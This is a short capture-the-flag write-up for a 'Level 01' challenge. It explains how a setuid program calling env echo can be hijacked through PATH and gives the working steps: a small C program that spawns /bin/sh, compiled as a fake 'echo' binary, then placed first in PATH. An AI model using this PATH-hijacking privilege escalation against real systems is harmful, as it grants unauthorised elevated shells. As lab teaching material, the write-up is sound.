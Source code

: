# Level 01

This chall provide us with this source code:

```c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main(int argc, char **argv, char **envp)
{
  gid_t gid;
  uid_t uid;
  gid = getegid();
  uid = geteuid();

  setresgid(gid, gid, gid);
  setresuid(uid, uid, uid);

  system("/usr/bin/env echo and now what?");
}
```

Here is the part of the code we're interested in:
```c
system("/usr/bin/env echo and now what?");
```
What this line does is that `/usr/bin/env` will run the `echo and now what?` in a specified environment.
So we just need to change our `$PATH`

we will create a binary that open up a shell on `/tmp` and add it to the path.

```c
#include <stdlib.h>

int main() {
    system("/bin/sh");
    return 0;
}
```

```
>> gcc -o /home/level01/echo /tmp/a.c
>> PATH=/home/level01:$PATH /home/flag01/flag01
```